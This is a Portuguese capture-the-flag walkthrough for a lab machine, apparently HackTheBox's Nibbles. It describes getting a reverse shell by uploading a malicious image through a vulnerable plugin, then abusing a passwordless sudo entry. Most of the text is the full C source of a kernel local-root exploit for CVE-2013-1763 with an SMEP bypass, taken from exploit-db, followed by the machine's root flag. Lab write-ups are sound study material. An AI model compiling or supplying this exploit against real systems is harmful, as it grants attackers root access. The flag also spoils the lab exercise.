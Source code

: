# Acesso ao sistema

Acesso ao sistema por meio de um reverse shell

[reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
![](../screenshots/shell.png)

O shell foi obtido por meio de um upload de imagem maliciosa, que foi feito por meio de um plugin vulnerável. O plugin my_image foi o alvo escolhido para o upload do script malicioso. temos acesso ao usuário nibbler padrão

Usando o comando sudo -l

![sudo -l](../screenshots/sudo.png)
temos acesso a um diretório com um caminho
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


O usuário nibbler pode executar o arquivo monitor.sh como root sem senha, então podemos substituir o conteúdo de monitor.sh por um script C de escalada de privilégios local

```c
/** 
 * based on the exploit by SynQ
 *
 * Modified PoC for CVE-2013-1763 with SMEP bypass
 * Presentation: Practical SMEP Bypass Techniques on Linux
 * Vitaly Nikolenko
 * vnik@cyseclabs.com
 * 
 * Target: Linux ubuntu 3.5.0-23-generic #35~precise1-Ubuntu SMP Fri Jan 25 17:13:26 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux
 *
 * gcc sockdiag_smep.c -O2 -o pwn 
 */

/**
 EDB Note: Video ~ https://youtu.be/jHJd-5NvWlQ
**/

#include <unistd.h>
#include <sys/socket.h>
#include <netinet/tcp.h>
#include <errno.h>
#include <linux/if.h>
#include <linux/filter.h>
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <linux/inet_diag.h>
#include <sys/mman.h>
#include <assert.h>
//#include <linux/sock_diag.h>
//#include <linux/unix_diag.h>
//#include <linux/netlink.h>
#include "sock_diag.h"
#include "unix_diag.h"
#include "netlink.h"

unsigned long user_cs;
unsigned long user_ss;
unsigned long user_rflags;

typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);
_commit_creds commit_creds;
_prepare_kernel_cred prepare_kernel_cred;
unsigned long sock_diag_handlers, nl_table;

static void saveme() {
	asm(
	"movq %%cs, %0\n"
	"movq %%ss, %1\n"
	"pushfq\n"
	"popq %2\n"
	: "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) : : "memory" 		);
}

void shell(void) {
	if(!getuid())
		system("/bin/sh");

	exit(0);
}

static void restore() {
	asm volatile(
	"swapgs ;"
	"movq %0, 0x20(%%rsp)\t\n"
	"movq %1, 0x18(%%rsp)\t\n"
	"movq %2, 0x10(%%rsp)\t\n"
	"movq %3, 0x08(%%rsp)\t\n"
	"movq %4, 0x00(%%rsp)\t\n"
	"iretq"
	: : "r" (user_ss),
	    "r" ((unsigned long)0x36000000),
	    "r" (user_rflags),
	    "r" (user_cs),
	    "r" (shell)
	);
}

int __attribute__((regparm(3)))
kernel_code()
{
	commit_creds(prepare_kernel_cred(0));
	restore();
	
	return -1;
}

int main(int argc, char*argv[])
{
	int fd;

	struct sock_diag_handler {
		__u8 family;
		int (*dump)(void *a, void *b);
	};

	unsigned family;
	struct {
		struct nlmsghdr nlh;
		struct unix_diag_req r;
	} req;

	if ((fd = socket(AF_NETLINK, SOCK_RAW, NETLINK_SOCK_DIAG)) < 0){
		printf("Can't create sock diag socket\n");
		return -1;
	}

	void *mapped;
	void *fakestruct;
	struct sock_diag_handler a;
	a.dump = (void *)0xffffffff8100b74f;

	commit_creds = (_commit_creds) 0xffffffff8107ee30;
	prepare_kernel_cred = (_prepare_kernel_cred) 0xffffffff8107f0c0;

	assert((fakestruct = mmap((void *)0x10000, 0x10000, 7|PROT_EXEC|PROT_READ|PROT_WRITE, 0x32|MAP_FIXED|MAP_POPULATE, 0, 0)) == (void*)0x10000);
	memcpy(fakestruct+0xad38, &a, sizeof(a));

	assert((mapped = mmap((void*)0x35000000, 0x10000000, 7|PROT_EXEC|PROT_READ|PROT_WRITE, 0x32|MAP_POPULATE|MAP_FIXED|MAP_GROWSDOWN, 0, 0)) == (void*)0x35000000);

	unsigned long *fakestack = (unsigned long *)mapped;
	*fakestack ++= 0xffffffff01661ef4;
	int p;
	for (p = 0; p < 0x1000000; p++)
		*fakestack ++= 0xffffffff8100ad9eUL;
	
	fakestack = (unsigned long *)(mapped + 0x7000000);
	printf("[+] fake stack addr = %lx\n", (long unsigned)fakestack);
	*fakestack ++= 0xffffffff8133dc8fUL;
	*fakestack ++= 0x407e0;
	*fakestack ++= 0xffffffff810032edUL;
	*fakestack ++= 0xdeadbeef;
	*fakestack ++= (unsigned long)kernel_code; // transfer control to our usual shellcode

	memset(&req, 0, sizeof(req));
	req.nlh.nlmsg_len = sizeof(req);
	req.nlh.nlmsg_type = SOCK_DIAG_BY_FAMILY;
	req.nlh.nlmsg_flags = NLM_F_ROOT|NLM_F_MATCH|NLM_F_REQUEST;
	req.nlh.nlmsg_seq = 123456;

	req.r.sdiag_family = 45;

	req.r.udiag_states = -1;
	req.r.udiag_show = UDIAG_SHOW_NAME | UDIAG_SHOW_PEER | UDIAG_SHOW_RQLEN;

	saveme();
	if ( send(fd, &req, sizeof(req), 0) < 0) {
		printf("bad send\n");
		close(fd);
		return -1;
	}
}
```
O script foi retirado de [exploit-db](https://www.exploit-db.com/raw/44299)

root.txt: de5e5d6619862a8aa5b9b212314e0cdd
